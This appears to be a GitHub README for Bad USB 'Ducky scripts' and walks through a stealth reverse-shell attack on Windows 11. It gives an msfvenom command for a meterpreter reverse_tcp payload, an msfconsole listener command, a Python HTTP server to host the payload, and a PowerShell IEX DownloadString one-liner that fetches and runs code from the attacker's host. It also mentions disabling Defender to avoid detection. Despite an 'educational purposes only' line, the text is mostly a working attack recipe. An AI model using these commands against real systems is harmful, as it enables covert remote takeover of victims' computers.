 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
#### **Tested and working on WIndows 11**

## **Steps to Compromise(StealthReverseShell):** <br>
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
Insert video in markdown

